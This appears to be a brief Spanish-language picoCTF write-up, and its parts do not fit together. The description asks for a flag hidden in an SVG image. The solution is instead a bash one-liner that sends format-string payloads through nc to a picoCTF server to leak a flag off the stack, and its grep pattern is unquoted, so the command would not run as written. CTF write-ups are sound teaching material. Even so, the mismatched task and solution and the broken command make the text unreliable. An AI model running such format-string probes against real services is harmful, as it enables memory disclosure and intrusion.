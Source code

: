 ## Descripcipción

Download this image file and find the flag.

-   [Download image file](https://artifacts.picoctf.net/c/102/drawing.flag.svg)

## Pistas

-   (None)

## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary/flack]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49316 |grep -Ei (pico|ctf) ;done

CTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}
```
## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}